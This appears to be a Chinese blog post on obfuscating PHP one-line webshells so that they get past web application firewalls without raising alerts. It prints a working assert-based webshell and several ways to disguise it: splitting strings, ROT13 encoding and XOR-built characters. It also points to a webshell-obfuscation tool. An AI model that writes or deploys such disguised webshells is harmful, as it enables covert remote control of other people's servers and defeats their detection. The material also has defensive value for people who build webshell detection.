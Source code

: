 一句话木马叱咤江湖这么多年还是如此活跃，我个人理解是，方便，相比于二进制后门或者大马，一句话木马足够短，容易上传，并且有众多客户端，菜刀，Cknife，蚁剑，对于脚本小子来说，一句话木马大大降低了渗透的门槛。

但是一句话木马，已经不能适应现在的局势了，如今各大[服务器](https://cloud.tencent.com/product/cvm?from_column=20065&from=20065)纷纷装上了waf，一句话木马一旦被检测出来，一是会封ip，二是会发出报警信息，引起对方的警觉。

本文就来简单探讨一下php一句话木马的免杀，包括静态免杀和动态免杀。

## 1.静态免杀

php木马的静态免杀是很容易的，静态免杀基本是通过各种加密或者移位亦或等方式来隐藏关键词。下面以很常见的一句话木马举例：

```
<?php  @assert($_POST['x']);?>
```

## 1.1 隐藏关键字

waf检测到assert这个关键词，很大概率会被检测出来，那么我们可以尝试用别的词来生成，具体的生成方式有很多种，这里列举一下常见的几种方式，其实效果都差不多。

-   拆解合并

```
<?php
$ch = explode(".","hello.ass.world.er.t");
$c = $ch[1].$ch[3].$ch[4]; //assert
$c($_POST['x']);
?>
```

-   目前来说，这种方式已经很难奏效了。
-   利用各种函数、编码

比如对套上一层ROT13编码

```
$c=str_rot13('n!ff!re!nffreg');
$str=explode('!',$c)[3];
```

还有很多加解密方式，利用各种函数如array\_map、array\_key、preg\_replace来隐藏关键字，这里就不多说了。

-   随机亦或产生

这里可以参考 [https://github.com/yzddmr6/webshell-venom，想法也很简单，就是利用了php的亦或来生成所需要的字母。比如](https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fgithub.com%2Fyzddmr6%2Fwebshell-venom%25EF%25BC%258C%25E6%2583%25B3%25E6%25B3%2595%25E4%25B9%259F%25E5%25BE%2588%25E7%25AE%2580%25E5%258D%2595%25EF%25BC%258C%25E5%25B0%25B1%25E6%2598%25AF%25E5%2588%25A9%25E7%2594%25A8%25E4%25BA%2586php%25E7%259A%2584%25E4%25BA%25A6%25E6%2588%2596%25E6%259D%25A5%25E7%2594%259F%25E6%2588%2590%25E6%2589%2580%25E9%259C%2580%25E8%25A6%2581%25E7%259A%2584%25E5%25AD%2597%25E6%25AF%258D%25E3%2580%2582%25E6%25AF%2594%25E5%25A6%2582) `"Y"^"\x38"`的结果就是a，同样的生成assert即可。

```
$_StL="Y"^"\x38";
$_ENr="T"^"\x27";
$_ohw="^"^"\x2d";
$_gpN="~"^"\x1b";
$_fyR="g"^"\x15";
$_pAs="H"^"\x3c";

$c=$_StL.$_ENr.$_ohw.$_gpN.$_fyR.$_pAs;
```
